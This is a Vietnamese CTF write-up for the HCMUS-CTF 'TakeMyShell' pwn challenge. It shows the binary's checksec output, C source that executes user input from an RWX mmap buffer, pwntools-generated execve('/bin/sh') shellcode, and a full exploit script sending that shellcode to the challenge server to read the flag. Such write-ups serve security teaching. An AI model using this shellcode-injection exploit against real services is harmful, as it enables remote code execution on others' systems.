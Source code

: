 ## ⚡ [TakeMyShell](https://ctf.hcmus.edu.vn/challenges#TakeMyShell)

[![df](https://img.shields.io/badge/B3T4-shark-brightgreen.svg)](https://img.shields.io/badge/B3T4-shark-brightgreen.svg)
[![df](https://img.shields.io/badge/member-viplazy-brightgreen.svg)](https://img.shields.io/badge/member-viplazy-brightgreen.svg)
[![df](https://img.shields.io/badge/178-pts-brightgreen.svg)](https://img.shields.io/badge/178-pts-brightgreen.svg)

Tác giả: `pakkunandy`



Tags: `pwn` `shellcode`

### Challenge Description

Mã nguồn: [takemyshell.c](./takemyshell.c)

### Summary

Challenge này yêu cầu ta lấy được môi trường thực thi trên server.

Đầu tiên, kiểm tra thông tin binary:

```bash
$ checksec takemyshell
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

Chương trình này chạy trên nhân x86, đã tắt các bảo vệ. Đồng thời, nó còn có phân vùng có quyền đọc ghi và thực thi code riêng trên bộ nhớ. 


Các hàm chức năng:

```c++
int main(int argc, char*argv[]){
    clean();
    printf("Once again, wellcome to HCMUS-CTF!!!\n");
    printf("This challenge, I just reuse some existing challenge, to encourage you some points...\n");
    printf("You also learnt it in the class :)");
    fflush(stdout);
    damaged();
    return 0;
}
```

```c++
void damaged(){
    char * s = (char *)mmap(NULL, STUFF_CAPACITY, PROT_EXEC|PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, 0, 0);
    if(s == MAP_FAILED){
        printf("We don't have enough space for you. Please talk to us!!!\n");
        exit(0);
    }
    printf("Just tell me, your %d byte \n", STUFF_CAPACITY);
    fflush(stdout);
    int len = read(STDIN_FILENO, s, STUFF_CAPACITY);
    if(len == 0){
        printf("Nothing? Bye:(");
        exit(0);
    }
    void (*f)() = (void (*)())s;
    f();
}
```

Chương trình đã cấp phát 1 vùng nhớ thông qua lời gọi hàm [mmap](https://linuxhint.com/using_mmap_function_linux/), với đầy đủ 3 quyền `PROT_EXEC|PROT_READ|PROT_WRITE` và được lưu trên vùng nhớ heap thông qua cờ `MAP_ANONYMOUS`.

Sau đó, chương trình cho phép người dùng nhập dữ liệu tối đa `STUFF_CAPACITY = 60` bytes lên vùng nhớ đó, rồi ép kiểu vùng nhớ về dạng **con trỏ hàm**, và chạy hàm này một cách bình thường. 

Okey, vậy nghĩa là ta chỉ cần gửi 1 hàm có chức năng gọi `/bin/sh` là sẽ lấy được shell.

### Exploit

Theo lý thuyết, ta sẽ viết hàm gọi `/bin/sh` (C/C++ hoặc assembly), rồi dịch sang mã máy nhị phân và gửi tới binary thực thi. Tuy nhiên, để đảm bảo payload ngắn và tiện nhất, ta chỉ cần dùng thư viện `shellcraft`.



```python
>>> from pwn import shellcraft
>>> shellcraft.sh()
"    /* execve(path='/bin///sh', argv=['sh'], envp=0) */\n    /* push b'/bin///sh\\x00' */\n    push 0x68\n    push 0x732f2f2f\n    push 0x6e69622f\n    mov ebx, esp\n    /* push argument array ['sh\\x00'] */\n    /* push 'sh\\x00\\x00' */\n    push 0x1010101\n    xor dword ptr [esp], 0x1016972\n    xor ecx, ecx\n    push ecx /* null terminate */\n    push 4\n    pop ecx\n    add ecx, esp\n    push ecx /* 'sh\\x00' */\n    mov ecx, esp\n    xor edx, edx\n    /* call execve() */\n    push SYS_execve /* 0xb */\n    pop eax\n    int 0x80\n"
>>> from pwn import asm
>>> len(asm(shellcraft.sh()))
44
>>>
```
Kích thước `shellcode` là **44** bytes.

## Code

```python
#!/usr/bin/env python

from pwn import *

#sh = process('./takemyshell')
sh = remote("159.65.13.76", 62111)

STUFF_CAPACITY = 60

shellcode = asm(shellcraft.sh())

# send this payload and get the shell
#sh.sendline(shellcode)

# send this payload and get the flag automatic
sh.sendline(shellcode.ljust(STUFF_CAPACITY, 'A') + "cat flag.txt;exit")

sh.interactive()
```


📫 Flag: **`HCMUS-CTF{}`**

---
*[Back to table of contents](../README.md)*
